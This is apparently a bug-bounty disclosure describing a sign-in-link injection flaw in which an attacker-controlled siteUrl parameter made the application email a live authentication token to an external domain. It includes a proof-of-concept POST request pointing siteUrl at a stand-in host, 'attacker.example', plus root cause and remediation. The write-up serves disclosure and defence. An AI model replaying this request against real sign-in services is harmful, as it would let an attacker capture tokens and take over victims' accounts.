

# Sign-In Link Injection Enables Account Takeover

**Vulnerability:** Authentication Token Leakage / Account Takeover  
**Status:** Validated — Duplicate  
**Affected Function:** Customer sign-in link  
**Parameter:** `siteUrl`


```text
*Sanitized evidence of the report's triaged state. Private report identifiers, target details, and sensitive information have been redacted.*
```
[ VIDEO POC ]   
[ LAB ]

---

## Summary

The customer sign-in-link API accepted an attacker-controlled `siteUrl` paramter.

The application then generated a legitimate sign-in email containing a link to the attacker-controlled domain. A live authentication token was appended to that URL.

The token was captured using Burp Collaborator, demonstrating authentication token disclosure and a direct account takeover path.

---

## Attack Flow

```text

Attacker controls siteUrl
        ↓
Victim requests a sign-in link
        ↓
The web application generates the sign-in email
        ↓
Email contains attacker-controlled domain
        ↓
Live authentication token is appended
        ↓
Token reaches Burp Collaborator
        ↓
Token can authenticate as the victim
```
---

## Proof of Concept

The vulnerable request accepted an external domain through siteUrl:

POST /store/api/v1/118190271/customer/send-sign-in-link HTTP/1.1
Host: app.example.com
Content-Type: application/json

{
  "email": "victim@example.com",
  "lang": "en",
  "siteUrl": "https://attacker.example/",
  "visitorId": "REDACTED",
  "sessionId": "REDACTED"
}

The resulting sign-in email contained an attacker-controlled URL with a live authentication token.

Example:

https://attacker.example/#!/~/account/key=REDACTED

The token was captured by Burp Collaborator.

---

## Impact

The vulnerability exposed a live authentication token to an attacker-controlled destination.

Successful token capture allowed authentication as the victim account.

This resulted in:

Authentication token disclosure
Account takeover
Unauthorized access to the victim's customer account
Ability to perform actions available to the authenticated customer
Root Cause

The siteUrl parameter was accepted without restricting it to trusted, application-controlled origins.

Because the generated authentication link incorporated this value, an attacker could control the destination of a link containing a live authentication capability.

Remediation
Restrict siteUrl to an allowlist of trusted application-controlled origins.
Do not generate authentication links pointing to arbitrary external domains.
Avoid placing reusable authentication tokens in URLs whose destination can be user-controlled.
Use short-lived and single-use authentication tokens.
Validation

The report was validated by the program and subsequently marked as a duplicate.

The core vulnerability was confirmed through:

External siteUrl
      ↓
Attacker-controlled sign-in destination
      ↓
Authentication token included in link
      ↓
Token captured by Burp Collaborator
      ↓
Authenticated victim session

---

## Research Takeaway

Authentication flows must treat destination parameters as security-sensitive.

A parameter that controls where an authentication link is sent becomes critical when that link contains a live authentication capability.
